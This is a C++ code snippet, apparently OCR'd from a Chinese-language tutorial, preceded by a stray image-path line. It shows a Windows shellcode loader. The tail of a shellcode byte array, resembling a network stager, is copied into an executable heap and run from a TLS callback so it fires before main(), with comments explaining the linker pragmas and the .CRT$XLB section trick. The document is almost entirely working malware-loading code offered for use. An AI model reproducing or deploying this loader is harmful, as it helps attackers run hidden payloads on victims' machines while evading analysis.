 ```cpp
"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68"
"\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f"
"\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49"
"\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48"
"\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2"
"\xf0\xb5\xa2\x56\xff\xd5";


//TLS回调函数
VOID NTAPI TlsCallBack(PVOID DllHandle, DWORD dwReason, PVOID Reserved)
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{	
		HANDLE HeapHandle = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, sizeof(shellcode), 0);

		char* buffer = (char*)HeapAlloc(HeapHandle, HEAP_ZERO_MEMORY, sizeof(shellcode));

		memcpy(buffer, shellcode, sizeof(shellcode));

		((void(*)(void)) buffer)();
	}

}

//确保链接器在生成可执行文件时包含TLS相关的符号,即确保链接器知道程序使用了TLS功能和自定义的TLS回调函数
#pragma comment (linker, "/INCLUDE:__tls_used")  
#pragma comment (linker, "/INCLUDE:__tls_callback")



//这行代码告诉编译器，接下来的数据（如变量定义）将放置在名为.CRT$XLB的数据段中。
//.CRT$XLB是一个特殊的数据段名称，链接器将在其中寻找TLS回调函数的地址
#pragma data_seg (".CRT$XLB")

//这行代码定义了一个名为_tls_callback的变量，其类型为PIMAGE_TLS_CALLBACK（一个指向TLS回调函数的指针）。
//此变量被初始化为指向TlsCallBack函数的地址
//由于我们在第一行代码中使用了#pragma data_seg指令，_tls_callback变量将被放置在.CRT$XLB数据段中
//.CRT$XLB是一个特定的数据段名称，与C运行时（C Runtime，CRT）机制有关。在这个名称中，各部分的含义如下：
//.CRT：这个前缀表示该数据段与C运行时机制相关。
//$：这个符号在数据段名称中用作分隔符。
//XL：这两个字符表示该数据段用于存储TLS回调函数地址。在链接器处理TLS回调时，它会查找具有这个前缀的数据段。
//B：这个字母表示数据段的顺序。这个字符可以是字母表中的B到Y之间的任意一个字母。这意味着可以定义多个TLS回调，链接器会按照字母顺序调用它们。
//需要注意的是，.CRT$XLA和.CRT$XLZ这两个数据段名称是保留的，用于C运行时库的内部实现，因此不应在用户代码中使用
//EXTERN_C PIMAGE_TLS_CALLBACK _tls_callback = TlsCallBack;
EXTERN_C PIMAGE_TLS_CALLBACK _tls_callback = TlsCallBack;

//这行代码告诉编译器恢复默认的数据段。
//这意味着在这个指令之后定义的数据（如变量定义）将被放置在默认的数据段中，而不是.CRT$XLB数据段
#pragma data_seg ()


int main()
{
	printf("tls回调函数执行完后才执行我!");
	return 0;
}
```
